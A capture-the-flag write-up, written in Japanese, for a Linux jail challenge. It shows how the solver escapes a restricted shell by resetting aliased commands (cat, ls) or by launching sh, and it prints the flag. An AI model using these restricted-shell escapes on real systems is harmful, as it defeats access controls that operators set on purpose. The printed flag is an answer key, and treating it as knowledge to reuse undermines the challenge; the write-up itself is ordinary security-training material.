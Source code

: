 # Prison Break:linux:304pts
A linux jail challenge. Find a way out of prison shell! try root!  
Connect with command: $nc 143.198.224.219 21212  
![prison.png](images/prison.png)  
Ce shell fonctionne partiellement. Trouvez un moyen pour devenir root!  
Connectez-vous avec la commande: $nc 143.198.224.219 21212  
`143.198.224.219:21212`  

# Solution
接続先が渡されているので、ncで接続してみる。  
```bash
$ nc 143.198.224.219 21212
user @ csictf: $
whoami
ctf
user @ csictf: $
ls
 ________________________________________
/ Don't look at me, I'm just here to say \
\ moo.                                   /
 ----------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
user @ csictf: $
echo "satoki"
satoki
user @ csictf: $
pwd
 ________________________________________
/ Don't look at me, I'm just here to say \
\ moo.                                   /
 ----------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
user @ csictf: $
```
`echo`などごく少数の機能に制限されたシェルのようだ。  
牛の出力に囚われているので、ここからの脱出を目指す。  
`alias`を見ると`ls`や`cat`がつぶされていたので元に戻す。  
```bash
user @ csictf: $
alias
alias awk='cowsay Don\'\''t look at me, I\'\''m just here to say moo.'
alias cat='cowsay Don\'\''t look at me, I\'\''m just here to say moo.'
alias cd='cowsay Don\'\''t look at me, I\'\''m just here to say moo.'
alias find='cowsay Don\'\''t look at me, I\'\''m just here to say moo.'
alias grep='cowsay Don\'\''t look at me, I\'\''m just here to say moo.'
alias head='cowsay Don\'\''t look at me, I\'\''m just here to say moo.'
alias less='cowsay Don\'\''t look at me, I\'\''m just here to say moo.'
alias ls='cowsay Don\'\''t look at me, I\'\''m just here to say moo.'
alias more='cowsay Don\'\''t look at me, I\'\''m just here to say moo.'
alias pwd='cowsay Don\'\''t look at me, I\'\''m just here to say moo.'
alias sed='cowsay Don\'\''t look at me, I\'\''m just here to say moo.'
alias tail='cowsay Don\'\''t look at me, I\'\''m just here to say moo.'
user @ csictf: $
alias cat='cat'
user @ csictf: $
alias ls='ls'
user @ csictf: $
ls
flag.txt
script.sh
start.sh
user @ csictf: $
cat flag.txt
OFPPT-CTF{Pr1s0n_sh3ll_3sc4p3d}
```
flagが得られた。  
別解として`sh`も使えたようだ。  
```bash
$ nc 143.198.224.219 21212
user @ csictf: $
sh
ls
flag.txt
script.sh
start.sh
cat flag.txt
OFPPT-CTF{Pr1s0n_sh3ll_3sc4p3d}
```

## OFPPT-CTF{Pr1s0n_sh3ll_3sc4p3d}